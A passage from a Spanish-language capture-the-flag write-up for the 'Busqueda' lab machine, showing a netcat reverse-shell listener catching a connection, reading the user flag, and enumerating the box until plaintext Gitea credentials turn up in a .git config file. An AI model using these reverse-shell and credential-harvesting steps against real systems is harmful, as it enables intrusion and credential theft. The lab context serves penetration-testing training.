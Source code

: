 Verificamos que finalmente ganamos acceso al sistema con el usuario`svc` y logramos comprobar la flag de **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.208] 46348
bash: cannot set terminal process group (1646): Inappropriate ioctl for device
bash: no job control in this shell
svc@busqueda:/var/www/app$ cat /home/svc/user.txt 
26d7ad943e8f5*******************
```

## Privilege Escalation

### Information Leakage to access Gitea

Al acceder al equipo, verificamos que al revisar los permisos de `sudoers` nos requiere ingresar las credenciales del usuario, las cuales no disponemos actualmente. Revisamos los grupos a los que forma parte y tampoco disponemos de algún grupo que podamos abusar para escalar nuestros privilegios.

```bash
svc@busqueda:/var/www/app/.git$ sudo -l
[sudo] password for svc: 
sudo: a password is required
svc@busqueda:/var/www/app/.git$ id
uid=1000(svc) gid=1000(svc) groups=1000(svc)
```

Enumerando el directorio `/var/www/app` nos encontramos con un repositorio de `/.git` en el cual contiene un archivo de configuración con lo que parecen ser credenciales de acceso del usuario `cody`.

```bash
svc@busqueda:/var/www/app$ ls -la
total 20
drwxr-xr-x 4 www-data www-data 4096 Apr  3  2023 .
drwxr-xr-x 4 root     root     4096 Apr  4  2023 ..
-rw-r--r-- 1 www-data www-data 1124 Dec  1  2022 app.py
drwxr-xr-x 8 www-data www-data 4096 Feb 13 04:37 .git
drwxr-xr-x 2 www-data www-data 4096 Dec  1  2022 templates
svc@busqueda:/var/www/app$ cd .git/
svc@busqueda:/var/www/app/.git$ ls -la
total 52
drwxr-xr-x 8 www-data www-data 4096 Feb 13 04:37 .
drwxr-xr-x 4 www-data www-data 4096 Apr  3  2023 ..
drwxr-xr-x 2 www-data www-data 4096 Dec  1  2022 branches
-rw-r--r-- 1 www-data www-data   15 Dec  1  2022 COMMIT_EDITMSG
-rw-r--r-- 1 www-data www-data  294 Dec  1  2022 config
-rw-r--r-- 1 www-data www-data   73 Dec  1  2022 description
-rw-r--r-- 1 www-data www-data   21 Dec  1  2022 HEAD
drwxr-xr-x 2 www-data www-data 4096 Dec  1  2022 hooks
-rw-r--r-- 1 root     root      259 Apr  3  2023 index
drwxr-xr-x 2 www-data www-data 4096 Dec  1  2022 info
drwxr-xr-x 3 www-data www-data 4096 Dec  1  2022 logs
drwxr-xr-x 9 www-data www-data 4096 Dec  1  2022 objects
drwxr-xr-x 5 www-data www-data 4096 Dec  1  2022 refs
svc@busqueda:/var/www/app/.git$ cat config 
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
```